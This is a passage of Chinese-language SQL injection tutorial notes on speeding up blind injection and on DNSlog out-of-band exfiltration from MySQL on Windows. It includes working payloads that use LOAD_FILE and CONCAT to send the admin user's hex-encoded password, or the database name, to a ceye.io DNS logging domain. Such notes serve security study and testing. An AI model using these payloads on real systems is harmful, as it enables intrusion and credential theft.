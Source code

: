 具体数据以此类推即可。

### 时间型盲注的加速方式

**1、Windows平台上的Mysql可以用DNSlog加速注入**

**2、利用二分查找法**

sqlmap盲注默认采用的是二分查找法 

> - 利用 ASCII 码作为条件来查询，ASCII 码中字母范围在65~122之间
>- 以这个范围的中间数为条件，判断payload中传入的 ASCII 码是否大于这个中间数
> - 如果大于，就往中间数~122这块查找。反之亦然~ 
>

# 注入技巧

## DNSlog盲注详解

DNS在解析的时候会留下日志，通过读取多级域名的解析日志，获取请求信息；

DNSlog就是记录用户访问网站域名时，记录`DNS`和对应的IP的转换访问日志；

MySQL Load_File()函数可以发起请求，使用Dnslog接收请求，获取数据；

通过SQL执行后，将内容输出到DNSlog中记录起来，然后我们可以在DNSlog平台查询回显数据

```sql
union select 1,2,load_file(CONCAT('\\',(SELECT hex(pass) FROM user WHERE name='admin' LIMIT 1),'.mysql.wintrysec.ceye.io\abc'))

--Hex编码的目的是减少干扰，域名有一定的规范，有些特殊字符不能带入
```

> 注意：load_file()只能在windows平台上才能发起请求，linux下做dnslog攻击是不行的
>
> 因为UNC通用命名规范， \\\server\share_name 
>
> 上边 CONCAT 应该写四个反斜杠 \，因为最后会被转义成两个
>
> 因为Linux没有遵守UNC，所以当MySQL处于Linux系统中的时候，是不能使用这种方式外带数据的

> MySQL数据库配置中要设置secure_file_priv为空,才能完整的去请求DNS
>
> secure-file-priv参数是用来限制 LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()传到哪个指定目录的
>
> - ure_file_priv的值为null ，表示限制mysqld 不允许导入|导出
> - 当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下
> - 当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

在时间型盲注中用DNSlog加速注入

```sql
'and if((SELECT LOAD_FILE(CONCAT('\\\\',(SELECT hex(database())),'.xxx.ceye.io\\abc'))),sleep(5),1)%23
```
